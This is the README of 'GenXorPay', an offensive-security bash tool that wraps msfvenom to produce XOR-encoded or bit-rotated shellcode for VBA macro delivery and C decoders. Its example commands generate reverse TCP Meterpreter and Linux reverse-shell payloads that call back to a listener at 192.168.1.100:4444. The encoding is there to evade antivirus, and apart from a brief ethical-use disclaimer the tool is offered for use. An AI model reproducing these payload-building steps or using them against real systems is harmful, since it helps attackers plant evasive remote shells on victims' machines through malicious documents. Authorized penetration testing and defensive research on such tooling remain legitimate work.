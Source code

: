 # GenXorPay
(Generate XOR Payload) is a command-line tool built to simplify the creation of XOR-encoded shellcode using msfvenom, optimized for VBA macro delivery in offensive security engagements and red team operations. 

![Platform](https://img.shields.io/badge/platform-linux%20%7C%20macOS-brightgreen?style=flat-square)
![Language](https://img.shields.io/badge/language-bash-blue?style=flat-square)

---
### 🔥 Features
- ✅ Supports a wide range of **Meterpreter** and **Shell** payloads
- ✅ Auto-generates **XOR-encoded** or **bit-rotated** shellcode in C or VBA macro format
- ✅ Smart encoder prompting — skipped when XOR or rotation is used
- ✅ Saves raw `msfvenom` output and encoded buffers for reuse or analysis
- ✅ Optional **interactive clipboard mode** to copy payloads, shellcode, and MSF listener commands
- ✅ Detects and adjusts output types automatically (`.exe`, `.vba`, `.c`, `.elf`)
- ✅ Works across **Windows**, **Linux**, **macOS**, **Android**, **PHP**, **Java**, **Python**
- ✅ Includes built-in **bit-rotation encoding** with `--rotate`
- ✅ Suggested GCC compilation commands for Linux C payloads
- ✅ Debug logging support (`--debug`) for reproducibility

---
### 🔌 Clone the Repository

```bash
git clone https://github.com/Ninjarku/genxorpay.git
cd genxorpay
chmod +x genxorpay.sh

# To use copy to clipboard features you will need to install xclip if you have not already done so
sudo apt install xclip 
```

---
### 📦 Example Use

```bash
./genxorpay.sh -p 3 -lhost 192.168.1.100 -lport 4444 -o macro.vba -raw raw.vba -i
```

This will:
- Generate a **reverse TCP Meterpreter** payload
- XOR-encode the shellcode
- Write a macro to `macro.vba`
- Save the raw shellcode to `raw.vba`
- Enter interactive mode for copying payload elements to clipboard

----

### 🐧 Linux Payload with C Decoder
```bash
./genxorpay.sh -p 13 -lhost 192.168.1.100 -lport 4444 --arch x64 --platform linux --format c -key 0x41 -o xor.c
```
- Generate Linux x64 shell_reverse_tcp
- Applies XOR encoding
- Outputs a C file (xor.c) that decodes and executes the shellcode (You will still need to compile it to run)

----
### 🔁 Bit-Rotation Example (Instead of XOR)
```bash
./genxorpay.sh -p 13 -lhost 192.168.1.100 -lport 4444 --arch x64 --platform linux --format c --rotate 3 -o rotate.c
```
- Rotates shellcode left by 3 bits
- C file includes reverse decoder logic (right rotation by 3 bits)

----
### 🎯 Intended Use

`genxorpay` is designed for:
- **Red team operations**
- **Penetration testing**
- **Macro payload development**
- **Payload encoding research**

> ⚠️ **Ethical Use Only:** This tool is intended for use in environments where you have explicit permission. Unauthorized use is illegal and unethical.

# TODO
### (Future To-Do)
- Add --test mode to auto-run payload in sandbox
- Add optional --encode-only mode for custom shellcode
- Handle msfvenom failure with --debug output
- Add integrity check of output bytes (e.g., checksum)
- Include SHA256 of output payloads in log (For hash checks on AV)

### 🤝 Contributions
Contributions, ideas, and pull requests are welcome. Please file an issue if you discover a bug or want to propose a feature.

## 📎 Author

Made with ❤️ for security professionals by [Ninjarku](https://github.com/Ninjarku)
